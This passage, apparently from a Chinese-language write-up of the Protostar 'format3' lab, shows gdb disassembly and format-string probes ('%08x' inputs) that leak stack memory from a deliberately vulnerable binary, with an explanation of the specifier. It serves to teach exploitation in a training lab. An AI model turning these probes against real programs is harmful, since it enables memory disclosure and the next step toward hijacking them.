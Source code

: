 ```
**$ gdb -q format3**
Reading symbols from /opt/protostar/bin/format3...done.
**(gdb) set disassembly-flavor intel
(gdb) disassemble vuln**
```

![](img/be9a0b5852eb96feb52559e4a6762fe3.png)

# 剥削

## 初步侦察

让我们提供一些随机的字符串来观察程序的行为:

```
**$ python -c 'print "AAAA"' | /opt/protostar/bin/format3** 
AAAA
target is 00000000 :(
```

但是如果我们输入格式字符串参数(`%08x`)，我们会得到一些有趣的输出:

```
**$ python -c 'print "AAAA" + "|%08x" * 2' | /opt/protostar/bin/format3** 
AAAA|00000000|bffff590    **<-- Leaking memory address**
target is 00000000 :(***### Format String Explanation
"%08x"*** *= "%x" is a Format String parameter of the hexdecimal 
         representation. 
         The number "08" is the minimum value for "width field."
         This will pad the output of the "%x" specified to 8
         characters, which is equal to 4 bytes long.*
```

